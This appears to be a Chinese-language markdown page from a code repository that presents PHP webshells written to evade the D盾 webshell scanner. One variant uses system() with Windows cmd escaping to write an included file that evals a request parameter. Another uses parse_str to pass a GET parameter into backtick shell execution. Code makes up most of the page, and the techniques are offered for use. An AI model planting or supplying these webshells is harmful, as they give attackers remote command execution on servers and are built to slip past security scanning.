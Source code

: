 因为D盾语句不会匹配到`system()`函数中的 cmd 命令，可以先写一个连接语句后包含进来，即可完成连接。
```php
<?php
//pass=shell
system('echo ^<?php define("shell","$_REQUEST[shell]"); ?^>>1.php');
include('1.php');eval(shell);
?>
```




以下默认没有版本限制

**创建文件后包含绕过型**
>使用文件包含尝试绕过检测 只可以在windows环境中使用，Linux会权限不足无法创建文件

```php
<?php
system('echo ^<?php define("shell","$_REQUEST[shell]"); ?^>>1.php');
include('1.php');eval(shell);
?>
```
> Windows cmd  ^ 转义符

`echo "<Hellow>" >1.txt"写成 echo ^<Hello^> > 1.txt`  让`<>`失效。



---

**parse_str 变量**
```php
<?php
$a=1;
$b="a=".@$_GET['a'];
parse_str($b);
print_r(`$a`)
?>
```
![](img/3.png)

---
